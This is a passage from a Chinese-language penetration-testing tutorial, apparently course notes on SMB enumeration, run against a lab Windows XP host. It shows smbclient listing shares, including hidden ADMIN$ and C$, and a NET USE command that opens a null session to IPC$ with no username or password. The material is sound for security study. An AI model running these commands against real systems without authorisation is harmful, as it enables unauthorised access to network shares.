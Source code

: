 ```
smbclient -L //10.130.40.80 -N
Domain=[ELS-WINXP] OS=[Windows 5.1] Server=[Windows 2000 LAN Manager]
Sharename       Type        Comment
---------       ----        -------
eLS             Disk
IPC$            IPC         Remote IPC
WIA_RIS_SHARE   Disk
ADMIN$          Disk        Remote Admin
C$              Disk        Default share
Domain=[ELS-WINXP] OS=[Windows 5.1] Server=[Windows 2000 LAN Manager]
```

前面的命令行使用以下选项：
* `-L` 允许您查看目标上可用的服务
* 使用 `//<IP Address>` 您必须在目标 IP 地址前添加两个斜杠
* `-N` 强制工具不要求输入密码

现在让我们检查一下结果。

Smbclient 不仅可以检测到 NET VIEW 检测到的完全相同的共享...

```
smbclient -L //10.130.40.80 -N
Domain=[ELS-WINXP] OS=[Windows 5.1] Server=[Windows 2000 LAN Manager]
Sharename       Type        Comment
---------       ----        --------
eLS             Disk
IPC$            IPC         Remote IPC
WIA_RIS_SHARE   Disk
ADMIN$          Disk        Remote Admin
C$              Disk        Default share
Domain=[ELS-WINXP] OS=[Windows 5.1] Server=[Windows 2000 LAN Manager]
```

…但它也显示使用 Windows 标准工具时隐藏的管理共享。

## Checking for Null Sessions（检查空会话）
一旦我们检测到文件和打印机共享服务处于活动状态并且我们已经枚举了目标上的可用共享，就该检查是否可能进行空会话攻击。
为了验证这一点，我们将通过尝试在没有有效凭据的情况下连接到 IPC$ 管理共享来利用它。

### Checking for Null Sessions with Windows（使用 Windows 检查空会话）
要连接，您必须在 Windows shell 中键入以下命令：

```
NET USE \\<target IP address>\IPC$ '' /u:''
```

这告诉 Windows 使用空密码和空用户名连接到 `IPC$` 共享！

让我们在目标上尝试命令：

```
net use \\10.130.40.80\IPC$ '' /u:''
The command completed successfully.
```
